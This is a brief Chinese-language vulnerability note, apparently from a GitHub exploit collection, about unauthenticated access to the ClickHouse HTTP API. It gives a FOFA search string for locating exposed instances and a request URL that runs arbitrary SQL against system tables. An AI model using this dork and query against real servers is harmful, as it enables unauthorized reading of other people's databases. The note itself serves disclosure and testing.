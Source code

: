 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## FOFA

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](./images/202202091258079.png)

执行SQL语句

![img](./images/202202091258245.png)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](./images/202202091258274.png)